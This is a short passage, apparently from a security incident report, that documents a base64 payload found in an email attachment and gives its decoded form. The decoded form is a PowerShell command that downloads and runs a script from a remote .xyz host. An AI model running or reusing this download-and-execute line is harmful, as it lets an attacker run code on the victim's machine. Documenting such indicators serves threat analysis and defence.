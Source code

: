 ### Relevant log snippets / commands

- Base64 payload in email attachment:  

  ```console
  aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
  ```

  Decodes to `iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')` via [CyberChef](https://gchq.github.io/CyberChef/)

### References

- [MITRE ATT&CK Matrix](https://attack.mitre.org/)
- [CyberChef](https://gchq.github.io/CyberChef/)

